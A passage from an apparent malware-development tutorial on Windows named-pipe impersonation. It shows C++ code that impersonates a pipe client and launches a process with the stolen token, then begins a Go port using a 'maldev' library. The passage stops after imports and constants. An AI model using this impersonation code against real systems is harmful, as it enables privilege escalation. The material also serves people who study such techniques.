 ```cpp

	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

	std::wcout << "Impersonating the client..." << std::endl;
	ImpersonateNamedPipeClient(serverPipe);
	err = GetLastError();

	STARTUPINFO	si = {};
	wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
	PROCESS_INFORMATION pi = {};
	HANDLE threadToken = GetCurrentThreadToken();
	CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

	return 0;
}
```

Anyway we'll do this in Golang so it changes a little bit. Let's start by importing the needed packages.

```go
package main

import (
  "os"
  "fmt"
  "log"
  "time"
  "flag"
  "os/exec"
  "unsafe"
  "syscall"

  "golang.org/x/sys/windows"

  // Malware Dev library
  ml "github.com/D3Ext/maldev/logging"
  ms "github.com/D3Ext/maldev/system"
)
```

Then we define a bunch of constants we'll use later with API calls.

```go
const (
  PIPE_ACCESS_DUPLEX       = 0x00000003
  PIPE_TYPE_MESSAGE        = 0x00000004
  PIPE_WAIT                = 0x00000000
  CREATE_NEW_CONSOLE       = 0x00000010
  CREATE_NEW_PROCESS_GROUP = 0x00000200
  PIPE_READMODE_MESSAGE    = 0x00000002
)
```
